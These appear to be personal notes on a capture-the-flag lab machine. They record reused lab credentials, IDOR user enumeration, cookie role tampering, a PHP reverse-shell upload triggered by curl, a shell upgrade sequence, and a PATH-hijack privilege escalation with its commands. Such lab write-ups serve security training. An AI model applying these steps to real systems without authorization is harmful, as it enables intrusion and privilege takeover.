 - nmap scan:
	- 22: ssh
		- no vulns
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- website
	- simple no on-eye input fields
	-  gobuster
		-  returns nothing
	-  burp suite
		-  login page discoved
		-  try to log in with creds from previous box
			-  `admin:MEGACORP_4dm1n!!`
			-  `id=1`
			-  get's us to administration page
		-  another possible id/username under IDOR
			-  `id=4: john`
			-  `id=13 peter`
			-  `id=23 rafol`
			-  `id=30 superadmin`
				-  `Cookie: user=86575; role=super admin`

- foothold
	- upload php reverse shell from superadmin
	- find where the files got uploaded
		- fuzz with [[dirsearch]] → in /uploads
	- `curl http://<IP>/uploads/<file_name>`
		- → get shell
		- upgrade:	
		```
		SHELL=/bin/bash script -q /dev/null
		ctrl+z
		stty raw -echo
		fg
		reset
		xterm
		```
	- find user flag

- privilege escalation (part1- www-data → robert)
	- `sudo -l` → nothing
	- find creds for the user running the webapp
		- search file structure in `/var/ww/...`
		- `db.php` file in `/var/www/html/cdn-cgi/login`
		- default creds: `robert:M3g4C0rpUs3r!`

- privilege escalation (part2 robert → root)
		- `su robert`
		- `id` - got more info about robert
			- find all files that belong to group that robert is in `find / -type f -group bugtracker` → /usr/bin/bugtracker binary
			- it runs cat on some file
		- → create bogus cat in PATH  
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo 'bin/sh' > cat
		chmod +x cat
		```
		- run the binary again → you get shell
			- find the flag